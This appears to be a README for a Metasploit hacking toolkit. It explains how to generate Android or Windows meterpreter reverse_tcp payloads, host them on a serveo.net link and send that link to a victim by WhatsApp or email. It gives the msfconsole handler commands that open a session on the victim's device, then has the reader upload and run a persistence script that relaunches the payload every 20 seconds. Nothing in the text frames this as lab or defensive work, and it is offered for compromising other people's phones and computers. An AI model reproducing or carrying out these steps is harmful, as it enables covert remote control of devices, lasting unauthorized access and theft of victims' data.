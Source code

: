 Hello Visitor!!!

Here is a quick guide how to use it:

[1] Run the payload generator script by simply commanding :
    # bash Payload-Generator.sh
    Now you need to enter your active serveo tcp port
    Now enter your Payload name
    Now you can see two options Android or Windows
    Once ypu have selected one you can see two more options
    Web Payload and Simple Payload
    Once selecting the Web Payload your payload will be directly transfered
    to a website called :
    # https://payload.serveo.net/(Your payload name).apk
    Send this link to victim and he will download the payloa

    Once you selected the Simple Payload a payload will be created in your
    device internal storage and you can send this payload to victim device
    using whatsapp or email or any other sources.

[2] Run your hack terminal by commanding :(If using web payload)
    # bash Msfconsole-attack.sh
    Once you have done this make sure that this commands should be typed before
    your victim install and run the payload :
    # msf5> set exploit/multi/handler
    # msf5> set payload android/meterpreter/reverse_tcp
            (If you have selected android platform)
                 OR
    # msf5> set payload windows/meterpreter/reverse_tcp
            (If you have selected windows platform)
    # msf5> set lhost localhost
    # msf5> set lport (your serveo port)
    # msf5> exploit
    After this if your payload is installed and runned in victim device
    so you can see something like this on screen :
    # meterpreter>
    BINGO!! you have sucessfully exploited your victim device
    This process in simple payload is automated!!!!!!!!!!
    
    Check out the commands.txt to perform operation in victim device

[3] Now once you are in the system what if u want to access the victim
    anytime once you have exitted the meterpreter session..
    So here we use the persistent payload script.
    Once you have open the meterpreter session just fllow this..
    # meterpreter> cd/storage/emulated/0/Android/data
    By this you will be in the internal storage of the victim were the
    cache files of app are stored.Then do this...
    # meterpreter> upload $HOME/Metasploit-Hacking/persistent.sh
    By this you will upload the script to victim device
    This script will open the payload after 20 seconds again and again..
    Then run the script in victim by this command ..
    #meterpreter> shell
    #meterpreter> cd /storage/emulated/0/Android/data
    #meterpreter> sh persistent.sh
    Done now you can access the device anytime once u start exploit
    on the same port and host.
